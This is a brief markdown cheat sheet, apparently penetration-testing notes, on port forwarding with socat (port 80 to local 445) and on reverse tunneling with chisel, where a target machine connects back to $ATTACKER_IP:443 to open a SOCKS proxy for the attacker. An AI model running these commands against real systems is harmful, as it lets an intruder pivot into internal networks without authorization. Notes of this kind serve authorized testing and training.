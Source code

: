 # port forwarding

Forward port 80 to 445

```
socat TCP-LISTEN:80,fork TCP:127.0.0.1:445
```

# tunneling through chisel
Tunnel through 443 and open a socks proxy on attacker localhost.
## Attacker
```
./chisel server --port 443 --reverse
```
## Target
```
./chisel client $ATTACKER_IP:443 R:socks
```
